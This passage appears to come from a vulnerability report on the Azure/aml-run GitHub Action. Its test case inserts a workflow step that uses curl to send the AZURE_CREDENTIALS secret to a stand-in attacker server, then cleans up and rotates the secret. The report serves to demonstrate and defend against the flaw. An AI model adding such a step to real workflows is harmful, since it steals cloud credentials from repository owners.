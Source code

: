                                   |
                                  V
      Unauthorized Access to Azure Machine Learning Workspace
      ```
- **Security Test Case:**
    1. **Prerequisites:**
        - You need a GitHub repository where you have write access and the `AZURE_CREDENTIALS` secret configured.
        - Have a simple HTTP server running or a service like webhook.site to capture exfiltrated data.
    2. **Modify Workflow:**
        - Edit the workflow YAML file that uses the `Azure/aml-run` action.
        - Insert a new step *before* the step that uses `Azure/aml-run@v1` to exfiltrate the `AZURE_CREDENTIALS` secret using `curl` to send it to an attacker-controlled server.
          ```yaml
          - name: Malicious Secret Exfiltration
            run: |
              SECRET_VALUE="${{ secrets.AZURE_CREDENTIALS }}"
              curl -X POST -H "Content-Type: application/json" -d '{"secret":"'$SECRET_VALUE'"}' https://attacker-controlled-server.com/exfiltrate
          ```
          **Important Security Note:** Replace `https://attacker-controlled-server.com/exfiltrate` with the URL of your actual test server or webhook capture service.
    3. **Commit and Push Changes:** Commit the modified workflow file and push the changes to your repository.
    4. **Trigger Workflow Run:** Trigger the workflow run.
    5. **Examine Workflow Logs:** Inspect the logs for the "Malicious Secret Exfiltration" step to confirm the script executed.
    6. **Verify Secret Capture (Attacker Server):** Check your attacker-controlled server or webhook capture service logs to find a request containing the `AZURE_CREDENTIALS` JSON.
    7. **Cleanup:** Immediately remove the malicious step and rotate the `AZURE_CREDENTIALS` secret in Azure.